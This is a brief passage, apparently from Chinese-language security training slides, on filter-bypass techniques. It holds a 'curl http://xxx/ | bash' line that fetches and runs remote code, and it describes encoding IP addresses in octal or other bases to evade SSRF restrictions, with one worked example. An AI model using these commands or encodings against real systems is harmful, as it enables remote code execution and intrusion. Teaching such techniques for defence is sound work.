

2、远程内容绕过
当然如果可以获取到远程的内容，比如curl http://xxx/ | bash，这样能够省心很多

在SSRF漏洞利用中，经常会使用到将IP地址转化为进制来突破限制。
八、十、十六进制

比如八进制：117.103.205.232     <====>    016531746750